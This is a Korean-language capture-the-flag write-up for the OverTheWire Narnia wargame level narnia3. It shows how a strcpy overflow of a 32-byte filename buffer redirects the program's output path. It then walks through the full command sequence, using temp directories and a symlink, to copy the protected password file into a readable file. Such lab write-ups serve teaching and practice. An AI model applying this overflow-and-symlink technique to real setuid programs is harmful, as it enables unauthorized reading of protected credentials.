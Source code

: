 ## 1. 문제 확인
- ID : narnia3
- Target : /narnia/narnia3
- Flag : /etc/narnia_pass/narnia4
```
narnia3@gibson:/narnia$ ./narnia3
usage, ./narnia3 file, will send contents of file 2 /dev/null
```

<br/><br/>
## 2. 취약점 분석
### 2.1 Source Code
- 프로그램 실행 인자로 특정 파일을 입력하면 해당 파일을 읽어서 /dev/null 로 복사 후 종료함
![](https://velog.velcdn.com/images/g4nzzi/post/57739ffa-e50e-469e-bc6f-6b64bdbd0679/image.png)
### 2.2 Code 분석
- ifile 사이즈는 32byte이고, strcpy()로 복사할 때 사이즈 제한이 없으므로 실행 인자값을 32byte 이상 입력하면 ofile 값까지 덮어쓸 수 있을 듯 함
![](https://velog.velcdn.com/images/g4nzzi/post/8b7e4b23-81c9-40b7-bbfb-068ffac6caf6/image.png)
- gdb로 메모리 위치를 확인해 보니 정확하게 ifile 32byte 이후 ofile(/dev/null) 이 위치함
```
	(gdb) r NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
	Starting program: /narnia/narnia3 NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
	...
    (gdb) x/100s $ebp-0x38
	0xffffd350:     'N' <repeats 32 times>
	0xffffd371:     "dev/null"
	0xffffd37a:     ""
	...
```

<br/><br/>
## 3. Exploit
- ofile 값으로 덮어쓸 임시파일을 생성
```
	narnia3@gibson:/narnia$ touch /tmp/g4nzzi
	narnia3@gibson:/narnia$ chmod 777 /tmp/g4nzzi
```
- ifile 값을 32byte로 채울 임시 경로를 생성
```
	narnia3@gibson:/narnia$ mkdir /tmp/NNNNNNNNNNNNNNNNNNNNNNNNNNN
	narnia3@gibson:/narnia$ mkdir /tmp/NNNNNNNNNNNNNNNNNNNNNNNNNNN/tmp
```
- flag(/etc/narnia_pass/narnia4)를 읽기내기 위해 심볼릭 링크로 임시파일에 연결
```
	narnia3@gibson:/narnia$ ln -s /etc/narnia_pass/narnia4 /tmp/NNNNNNNNNNNNNNNNNNNNNNNNNNN/tmp/g4nzzi
```
- 프로그램 실행 시 심볼릭 링크를 실행 인자[32byte + 임시파일]로 입력하면 /dev/null 대신 임시파일에 flag값이 복사됨
```
    narnia3@gibson:/narnia$ ./narnia3 /tmp/NNNNNNNNNNNNNNNNNNNNNNNNNNN/tmp/g4nzzi
copied contents of /tmp/NNNNNNNNNNNNNNNNNNNNNNNNNNN/tmp/g4nzzi to a safer place... (/tmp/g4nzzi)
	narnia3@gibson:/narnia$ cat /tmp/g4nzzi
```
